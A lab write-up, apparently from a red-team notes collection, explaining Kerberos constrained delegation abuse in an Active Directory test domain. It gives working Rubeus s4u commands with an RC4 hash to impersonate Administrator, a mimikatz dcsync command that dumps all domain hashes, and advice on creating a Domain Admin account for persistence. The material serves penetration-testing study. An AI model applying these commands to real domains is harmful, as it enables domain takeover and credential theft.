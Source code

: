 # Constrained Delegation Abuse

⇒ So if you have compromised a **`user account`** / **`system`** on a **`machine`** that is allowed to **`delegate`** to Domain Controller's **`cifs`** / **`ldap`** service we can abuse that to own the domain controller.

- Refer to the lab creation: [Kerberos Constrained Delegation Lab Creation](../Lab%20Creation/Kerberos%20Constrained%20Delegation%20Lab%20Creation.md)

---

## Explaining the Attack

⇒ **msDS-AllowedToDelegateTo** :

- For a given computer or user account, this attribute specifies the list of service principal names (SPN) corresponding to Windows services that can act on behalf of the computer or user account.

⇒ So here user enox is **`allowedtodelegate`** to **`impersonate`** as any user to the **`SPNs`** set as show in the screenshot [ i.e **`ldap`** and **`cifs`** ]

```python
get-netuser | ?{$_.cn -like "naqi"} | select msds-allowedtodelegateto  -ExpandProperty msds-allowedtodelegateto
```

![Constrained%20Delegation%20Abuse/Untitled.png](Constrained%20Delegation%20Abuse/Untitled.png)

- So basically we can authenticate to **ldap** and **cifs** services ****on **VDC01** machine as any user we want.

### ⇒ **S4U** ( Service-For-User ) :

- So **`S4U`** is a set of kerberos extensions, which were implemented by Microsoft to avoid unconstrained delegations to run wild.
- So the **`s4u2fself`** extension allows a service to request forwardable service tickets to itself on behalf of a particular user. This was implemented so that a user authenticate to a service somewhat not using Kerberos.
- The extensions **`s4u2proxy`** allows the service account to use the forwardable ticket to request a service ticket to the SPN specified in msds-allowedtodelegateto.

[ NOTE: This is only possible if the user has TRUSTED_TO_AUTH_FOR_DELEGATION flag set]

---

## Performing The Attack

⇒ So to perform this attack we will be using Rubeus.exe tool which is a C# toolset for raw Kerberos interaction and abuses. 

- It hash s4u abuse extension which we can use to perform this attack

Tool : [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

⇒ So as we saw previously we are allowed to delegate to :

- ldap
- cifs

⇒ We will be showing how to abuse both of the services to compromise the domain controller.

- First we will start with getting rc4 hash of the user :

![Constrained%20Delegation%20Abuse/Untitled%201.png](Constrained%20Delegation%20Abuse/Untitled%201.png)

RC4: `**58A52D36C84FB7F5F1BEAB9A201DB1DD**`

### ⇒ cifs/vdc01.endark.local :

- Now we will impersonate as Administrator user and request a ticket to **`cifs`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:cifs/vdc01.endark.local /ptt
```

![Constrained%20Delegation%20Abuse/Untitled%202.png](Constrained%20Delegation%20Abuse/Untitled%202.png)

![Constrained%20Delegation%20Abuse/Untitled%203.png](Constrained%20Delegation%20Abuse/Untitled%203.png)

- No winrm or mimikatz using “**`cifs`**” . So we will instead create a user and add it to domain admins group :

![Constrained%20Delegation%20Abuse/Untitled%204.png](Constrained%20Delegation%20Abuse/Untitled%204.png)

![Constrained%20Delegation%20Abuse/Untitled%205.png](Constrained%20Delegation%20Abuse/Untitled%205.png)

Next you could just use RunAs or WinRm to the Domain Controller to get shell as the user we created and added to Domain Admins and run mimikatz to dump hashes for persistence.

### ⇒ **ldap/vdc01.endark.local** :

- Impersonating as Administrator user and getting a ticket for **`ldap`** service :

```python
./Rubeus.exe s4u /user:Naqi /rc4:58A52D36C84FB7F5F1BEAB9A201DB1DD /impersonateuser:Administrator /domain:endark.local /msdsspn:ldap/vdc01.endark.local /outfile:dc.kirbi
```

![Constrained%20Delegation%20Abuse/Untitled%206.png](Constrained%20Delegation%20Abuse/Untitled%206.png)

- Next we will just use the ticket with **mimikatz** to perform dcsync attack to dump all the hashes in the domain :

```python
.\mimikatz.exe "kerberos::ptt dc_ldap_vdc01.endark.local.kirbi" "lsadump::dcsync /all /csv" "exit"
```

![Constrained%20Delegation%20Abuse/Untitled%207.png](Constrained%20Delegation%20Abuse/Untitled%207.png)

---

References : [https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/](https://www.harmj0y.net/blog/activedirectory/s4u2pwnage/) and [https://www.harmj0y.net/blog/redteaming/another-word-on-delegation](https://www.harmj0y.net/blog/redteaming/another-word-on-delegation)